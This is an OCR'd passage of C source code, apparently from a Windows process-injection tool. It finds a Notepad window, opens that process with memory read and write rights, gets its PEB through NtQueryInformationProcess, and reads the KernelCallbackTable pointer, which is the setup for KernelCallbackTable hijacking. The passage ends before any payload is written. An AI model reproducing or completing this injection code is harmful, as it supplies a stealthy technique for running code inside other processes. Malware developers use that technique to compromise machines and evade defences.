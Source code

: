         printf( COLOR_GREEN_BOLD "\t[+] Window Handle found: 0x%p\n" COLOR_RESET, hWindow );
    
        // Step 4: Get the process ID of the Notepad
        DWORD pid;
        GetWindowThreadProcessId( hWindow, &pid );
        printf( COLOR_GREEN_BOLD "\t[+] Process ID: %d\n" COLOR_RESET, pid );
    
        HANDLE hProcess = OpenProcess(
            PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ | PROCESS_QUERY_INFORMATION,
            FALSE,
            pid
        );
        if ( !hProcess )
        {
            printf( COLOR_RED_BOLD "\t[-] Failed to open target process. Error: %d\n" COLOR_RESET, GetLastError() );
            return -1;
        }
        printf( COLOR_GREEN_BOLD "\t[+] Process Handle: 0x%p\n" COLOR_RESET, hProcess );
    
        // -----------------------------------------------------
        // Using NtQueryInformationProcess to get PEB
        // -----------------------------------------------------
        printf( COLOR_YELLOW_BOLD "\t[*] Retrieving PEB Address using NtQueryInformationProcess...\n" COLOR_RESET );
        PROCESS_BASIC_INFORMATION pbi;
        ULONG returnLength;
        NTSTATUS status = NtQueryInformationProcess(
            hProcess,
            ProcessBasicInformation,
            &pbi,
            sizeof( pbi ),
            &returnLength
        );
        if ( status != 0 )
        {
            printf( COLOR_RED_BOLD "\t[-] Failed to query process information. NTSTATUS: 0x%lx\n" COLOR_RESET, status );
            return -1;
        }
        PVOID PebBaseAddress = pbi.PebBaseAddress;
        printf( COLOR_BLUE_BOLD "\t\t[*] PEB Address: 0x%p\n" COLOR_RESET, PebBaseAddress );
    
        // Step 6: Read KernelCallbackTable from the target process's PEB
        PVOID KernelCallbackTable;
        SIZE_T bytesRead = 0;
        if ( !ReadProcessMemory(
            hProcess,
            ( PBYTE ) PebBaseAddress + offsetof( PEB, KernelCallbackTable ),
            &KernelCallbackTable,
            sizeof( PVOID ),
            &bytesRead
        ) )
        {
            printf( COLOR_RED_BOLD "\t[-] Failed to read KernelCallbackTable. Error: %d\n" COLOR_RESET, GetLastError() );
            return -1;
        }
        printf( COLOR_BLUE_BOLD "\t\t[*] KernelCallbackTable Address: 0x%p\n" COLOR_RESET, KernelCallbackTable );
    